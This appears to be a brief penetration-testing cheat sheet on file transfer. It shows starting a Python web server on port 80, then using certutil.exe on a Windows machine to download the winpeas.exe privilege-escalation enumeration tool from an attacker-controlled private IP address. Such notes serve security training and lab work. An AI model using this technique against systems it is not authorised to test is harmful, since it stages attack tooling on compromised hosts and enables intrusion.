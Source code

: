 ## Python Servers
```bash
python3 -m http.server 80
```
### Downloading files onto Windows machine
```cmd
certutil.exe -urlcache -f http://192.168.70.128/winpeas.exe winpeas.exe
/// last winpeas.exe is the name of the file on the local disk it is downloading it to
```
##### Note: put stuff to upload in a specific folder(e.g. transfer) and open the server from that folder